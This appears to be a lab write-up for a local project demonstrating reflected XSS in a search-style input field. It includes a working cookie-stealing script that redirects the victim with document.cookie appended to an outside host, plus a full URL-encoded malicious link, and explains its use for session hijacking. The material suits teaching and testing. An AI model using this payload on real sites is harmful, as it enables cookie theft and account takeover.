



I created an input field which takes user input as a HTTP request and uses it for an immediate response.
When you give something as an input here, it acts similar to a site search, which takes the term you put in,
and searches the database for that term, which requires the term to be passed to a backend function.
If it doesn't escape HTTP controllers like script tags, you have an XSS-Reflected vulnerability.
The expected input is a normal name. You can observe that once you submit name, the url is updated.

If a malicious script is given as an option in the url, it will be also create a link which can be sent
to victims and point them to a trusted site, but with a malicious script resulting in leakage of PII.
This vulnerability can be used for various malicious purposes. You can get the user's cookie by using
document.cookie. You can even send this cookie to a malicious website by encasing this in
script tags: window.location="https://suchitreddi.github.io?cookie="+document.cookie
This will result in a mailicious link which can be used to fool victims with some social engineering:
http://localhost/CyberSentinel/vulnerabilities/xss_r/?name=%3Cscript%3Ewindow%2Elocation%3D%22https%3A%2F%2Fsuchitreddi%2Egithub%2Eio%3Fcookie%3D%22%2Bdocument%2Ecookie%3C/script%3E
Note: This link won't work if you don't open it with localhost, and also the folder name after localhost should be changed to the name you have on your device for the index.php of xss_r.

Clicking this link will result in the victim being redirected to another website along with their cookie.
The website they are redirected to will be a malicious site whose server logs the cookies which leads to
session hijacking attack on the victim with the stolen cookie.
